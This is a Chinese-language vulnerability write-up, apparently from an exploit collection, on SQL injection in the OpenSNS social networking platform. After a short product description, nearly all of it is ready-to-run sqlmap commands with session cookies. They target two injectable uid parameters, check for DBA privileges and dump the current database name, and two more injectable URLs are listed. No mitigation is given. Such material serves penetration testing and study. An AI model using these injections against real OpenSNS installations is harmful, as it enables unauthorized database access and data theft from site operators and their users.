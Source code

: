 # OpenSNS sql注入

### 一、漏洞简介

OpenSNS是基于OneThink的轻量级社交化用户中心框架，系统秉持简约的设计风格，注重交流，为用户提供了一套轻量级的社交方案。OpenSNS前身是“ThinkOX”，2015年1月28号正式更名为OpenSNS。

OpenSNS采用PHP+MYSQL构建的一款有“身份”的开源免费SNS社交系统，适用于多种社会关系。

OpenSNS采用thinkphp框架编写。系统的设计遵循高内聚低耦合，允许管理员自由开启关闭功能模块。不仅如此，OpenSNS还内置了一个功能扩展商店，可以一键在线安装新的功能扩展。

OpenSNS目前有大量的国内开发者，云市场也上架了大量的第三方功能模块和主题应用，使OpenSNS可以同时满足各行各业的社交需求。

### 二、漏洞影响

### 三、复现过程

SQL注入(一)

需要注册一个账号并登录


```bash
sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql"

sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --is-dba

sqlmap.py -u "http://localhost/index.php?s=/ucenter/Config/&uid=1*" --cookie " PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136" --batch --technique=T --dbms "mysql" --current-db
```

同类h注入点


```
http://url/index.php?s=/ucenter/index/index&uid=10
http://url/index.php?s=/ucenter/index/information&uid=10
```

**SQL注入(二)**

需要注册一个账号并登录


```bash
sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch

sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --is-dba

sqlmap.py -u "http://localhost/index.php?s=/ucenter/index/getExpandInfo&uid=1)*--+" --cookie "PHPSESSID=hvvkoc2sef0l1kemdrvnknd2s7; UM_distinctid=16bda55e991192-05e2b3083ccb28-1368624a-144000-16bda55e992c7; CNZZDATA1254932726=287816123-1562732483-%7C1562738136;opensns_OX_LOGGED_USER=HYnkRzJxTkdgAdhKfVfkJ8n4kjemH%3DgWJU16IaiiFhglB7nm66fAxbZ9TTZXz%3DWWqjeQ5%3Di4bjZITf04G20E4v35V135D8miM5F2Jzf6VkgkYymtohawe" --dbms "mysql" --batch --current-db
```